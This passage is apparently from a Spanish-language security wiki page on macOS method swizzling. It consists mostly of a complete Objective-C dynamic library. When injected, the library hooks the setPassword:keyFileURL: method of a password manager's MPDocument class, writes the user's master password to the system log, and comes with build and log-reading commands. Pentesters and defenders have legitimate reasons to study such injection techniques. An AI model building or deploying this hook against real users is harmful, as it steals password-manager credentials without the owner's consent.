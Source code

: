 #### Ejemplo de biblioteca

{% code overflow="wrap" %}
```objectivec
// gcc -dynamiclib -framework Foundation sniff.m -o sniff.dylib

// If you added env vars in the Info.plist don't forget to call lsregister as explained before

// Listen to the logs with something like:
// log stream --style syslog --predicate 'eventMessage CONTAINS[c] "Password"'

#include <Foundation/Foundation.h>
#import <objc/runtime.h>

// Here will be stored the real method (setPassword in this case) address
static IMP real_setPassword = NULL;

static BOOL custom_setPassword(id self, SEL _cmd, NSString* password, NSURL* keyFileURL)
{
// Function that will log the password and call the original setPassword(pass, file_path) method
NSLog(@"[+] Password is: %@", password);

// After logging the password call the original method so nothing breaks.
return ((BOOL (*)(id,SEL,NSString*, NSURL*))real_setPassword)(self, _cmd,  password, keyFileURL);
}

// Library constructor to execute
__attribute__((constructor))
static void customConstructor(int argc, const char **argv) {
// Get the real method address to not lose it
Class classMPDocument = NSClassFromString(@"MPDocument");
Method real_Method = class_getInstanceMethod(classMPDocument, @selector(setPassword:keyFileURL:));

// Make the original method setPassword call the fake implementation one
IMP fake_IMP = (IMP)custom_setPassword;
real_setPassword = method_setImplementation(real_Method, fake_IMP);
}
```
{% endcode %}

## Referencias

* [https://nshipster.com/method-swizzling/](https://nshipster.com/method-swizzling/)

{% hint style="success" %}